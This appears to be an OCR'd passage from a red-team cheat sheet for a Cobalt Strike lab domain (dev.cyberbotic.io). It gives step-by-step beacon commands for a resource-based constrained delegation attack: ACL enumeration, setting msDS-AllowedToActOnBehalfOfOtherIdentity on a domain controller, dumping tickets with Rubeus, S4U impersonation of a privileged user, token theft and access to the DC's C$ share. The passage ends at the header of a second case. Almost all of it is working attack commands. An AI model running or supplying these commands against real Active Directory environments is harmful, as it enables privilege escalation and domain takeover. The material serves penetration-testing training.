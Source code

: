     beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl"}
      
    beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
      
    beacon> powerpick Get-DomainUser | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
      
    beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
    beacon> powerpick Get-DomainGroupMember -Identity "Developers" -Domain dev.cyberbotic.io -Recurse
      
    #3. Set the delegation attribute to a Computer Account where we have local admin access by modifying the attribute of target system
    # If we do not have Local Admin Access to any computer and only have User access then we can create Computer Object and Use it to abuse RBCD. Check Case-2.
    beacon> powerpick Get-DomainComputer -Identity wkstn-2 -Properties objectSid
    beacon> powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose
      
    #4. Verify the updated attribute
    beacon> powerpick Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
      
    #5. Get the TGT of our computer
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
      
    #6. Use S4U technique to get TGS for target computer using our TGT
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap
      
    #7. Access the services
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
      
    beacon> steal_token 4092
    beacon> ls \\dc-2.dev.cyberbotic.io\c$
      
    #8. Remove the delegation rights
    beacon> powerpick Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity
      
    # CASE-2 : Have Access to a Domain User but not Local Admin on Domain Joined Machine
    # Create Fake computer Account for RBCD Attack
      